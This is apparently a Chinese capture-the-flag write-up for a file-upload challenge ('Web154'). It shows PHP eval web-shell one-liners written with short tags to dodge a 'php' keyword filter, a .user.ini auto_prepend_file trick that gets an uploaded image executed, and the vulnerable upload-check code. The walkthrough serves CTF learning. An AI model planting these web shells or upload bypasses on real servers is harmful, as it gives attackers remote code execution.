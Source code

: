 ```php
                $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}

echo json_encode($ret);
```



## Web154

> 后端不能单二校验

上传png后回应文件不合规，我们可以尝试短链接

```php
<? @eval($_POST['attack']);?>

//<?phP @eval($_POST['attack']);?>
//<?= eval($_POST['attack']);?>
```

![image-20250115111042073](https://gitee.com/bx33661/image/raw/master/path/image-20250115111042073.png)

上传

```ini
auto_prepend_file=mum.png
short_open_tag = On
```

![image-20250115111222945](https://gitee.com/bx33661/image/raw/master/path/image-20250115111222945.png)

跟上一题一样，直接连接可以拿到flag

查看过滤,多了一个匹配PHP字符的步骤

```php
<?php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(strrpos($content, "php")==FALSE){
```